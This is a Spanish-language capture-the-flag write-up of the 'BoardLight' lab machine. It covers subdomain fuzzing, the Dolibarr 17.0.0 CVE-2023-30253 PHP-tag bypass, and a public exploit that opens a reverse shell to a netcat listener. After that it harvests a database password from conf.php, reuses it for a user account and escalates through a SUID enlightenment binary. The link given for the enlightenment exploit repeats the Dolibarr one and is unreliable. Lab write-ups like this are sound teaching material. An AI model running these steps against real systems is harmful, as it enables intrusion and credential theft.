# BoardLight

```bash
nmap -sCV -p22,80 10.129.39.20 -oN targeted
```



```bash
gobuster dir -u http://10.129.39.20 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 200 -x php,html,js,txt 2>/dev/null
```



Encontramos un posible directorio ya que gobuster no nos reporta mucho



No parece haber ningún recurso con ese nombre

Curioso cuando en la url http://board.htb/index.php/ le añadimos cualquier cadena detrás, o inclusive un parámetro, lo lee y se rompe el diseño, pero muestra el contenido de la web



Intentamos enumerar con *wfuzz* archivos php
```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://board.htb/FUZZ.php
```

Ahora subdominios de nuevo
```bash
wfuzz -c -t 200 --hl=517 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.board.htb" http://board.htb/
```

Vemos que todas las respuestas son códigos
- hl=cadena: *hide line* de la cadena que le digamos
- sl=cadena: *show line* de la cadena
- hc=state_code: *hide code* del código de estado que le digamos
- sc=state_code: *show code* del código de estado que le digamos



Encontramos un subdominio **crm**



Agregamos el subdominio al /etc/hosts

Encontramos un portal de login con *Dolibarr* versión 17.0.0



A simple vista podemos acceder con admin:admin



Buscando posibles exploits para la versión 17.0.0, encontramos una vulnerabilidad conocida **CVE-2023-30253** que consiste en bypasear el control de permisos del usuario logeado en dolibarr cambiando la etiqueta php  por alguna mayúscula, dejando así guardar el código para el cual, en principio, no se tiene permiso



Iremos a Websites para crear nuestro recurso malicioso
Cuando intentamos editar un trozo de la página llamada *shell.php* y entramos a editar su html header



Nos muestra que no tenemos permisos para editar contenido php



En cambio si ponemos php en mayúsculas nos dejará guardar





La página va como el culo asique lo haremos mediante un exploit que hace exactamente eso descargado de github -> https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253.git

Nos ponemos a la escucha
```bash
nc -nlvp 9001
```

lanzamos el exploit. Uso:
*python3 exploit.py TARGET_HOSTNAME USERNAME PASSWORD LHOST LPORT*
```bash
python3 exploit.py http://crm.board.htb admin admin 10.10.17.61 9001
```

**www-data**

## Escalada

Podemos buscar en principio dentro del CMS por la cadena *conf* para ver si hay algún archivo de configuración
```bash
find . -name \*conf\* 2>/dev/null
```

En /var/www/html/crm.board.htb/htdocs/conf/conf.php encontramos credenciales posibles
**dolibarrowner:serverfun2$2023!!**
Probamos la pass para el usuario *larissa*
**larissa**

Encontramos unos binarios con SUID
```bash
find / -perm -4000 2>/dev/null
```

Investigamos los **enlightenment** con
```bash
ls -la | grep "rws"
```



Encontramos un exploit en github para versiones superiores de enlightenment y de ubuntu
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253.git

Nos creamos en /tmp un archivo para pegar el exploit y ejecutamos



**root**
